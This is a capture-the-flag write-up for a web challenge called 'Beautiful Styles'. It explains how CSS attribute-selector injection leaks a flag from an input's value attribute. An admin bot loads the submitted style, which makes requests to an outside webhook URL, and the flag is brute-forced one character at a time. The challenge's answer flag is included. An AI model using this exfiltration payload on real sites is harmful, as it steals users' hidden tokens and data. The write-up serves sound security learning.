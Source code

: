 # [WEB] Beautiful Styles
# Description
I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. 
Flag only consists of numbers and uppcase letters and the lower character f.

Author: Junhua

http://challs.nusgreyhats.org:3333

# Approach
Entering the website, we are greeted with the following landing page, consisting of a source code of some web content and also an input for CSS styling.

![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/f67d1020-13d8-44fc-a88c-bca334fe0172)

After clicking on the submit button, we are redirected to another page `/submission/submission_id` showing us the preview of how our CSS input has changed the styling of the web content. 
There is also a button to submit our code for judging, which is likely visited by some kind of admin bot.

![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/b66a0ce1-9f75-4456-804c-bf06fdb01a6a)

From the source code of the web content that they've shown us, we know that the flag is stored in an input tag, within the "value" attribute.
To exploit CSS injection, we provide the following CSS:
```
input[value^=grey\{] {
    background-image: url(https://webhook.site/XXX)
}
```

The `^=` selector will lead to the url being accessed if the value attribute starts with the specified string `grey{`, which we know it would be since it is part of the flag format. 
We just need to submit the CSS for judging to let the admin bot execute it. Since the admin bot (judge) is the one making request, its flag value will be the legitimate one which we are looking for, and not the fake flag which we see currently.
When the admin bot loads our CSS, our webhook is called.

From there on, we just need to perform what I call a `Inference-Based Blind Attack` (aka Bruteforcing) to add on additional characters to the value, recording down whenever our webhook receives a request. 
Eventually, it builds up to the following:

`input[value^=grey\{X]`

`input[value^=grey\{X5]`

`input[value^=grey\{X5S]`

`input[value^=grey\{X5S3]`

...

`input[value^=grey{X5S34RCH1fY0UC4NF1ND1T\}]`

![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/ae171454-33a9-43e5-a40d-55d0c0912f25)

I have provided an automation script in this challenge folder. However, the script has to be run for each character of the flag, up until the last character of the flag `}` is present in the built `currentFlag` variable, which you will need to update each time you run the script. This is because I am not able to figure out a way to let the script know when our webhook gets called by the admin bot.

For keeping track of our currently-built flag, we can append a `?c={Current Flag Progress}` to keep track of the attempt used via a query parameter (included in the script):
![image](https://github.com/0necloud/CTF-Writeups/assets/60743000/2aaf3447-f6e9-4f80-95db-1259aefab553)

Flag: `grey{X5S34RCH1fY0UC4NF1ND1T}`
